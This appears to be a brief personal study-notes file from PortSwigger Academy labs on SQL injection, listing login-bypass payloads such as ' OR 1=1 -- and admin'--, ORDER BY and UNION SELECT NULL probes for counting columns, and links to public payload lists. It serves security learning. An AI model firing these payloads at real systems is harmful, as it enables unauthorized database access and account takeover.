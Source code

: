 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after

Payloads that just worked somewhere:
```
'--
admin'--
administrator'--
' OR 1=1 --
'+OR+1=1--
OR 1=1 --
OR+1=1 --
```
So how many collumns do we have? 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
'+ORDER+BY+3--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL, NULL, NULL--
'+UNION+SELECT+NULL,+NULL--
'+UNION+SELECT+NULL,NULL--

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
```

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
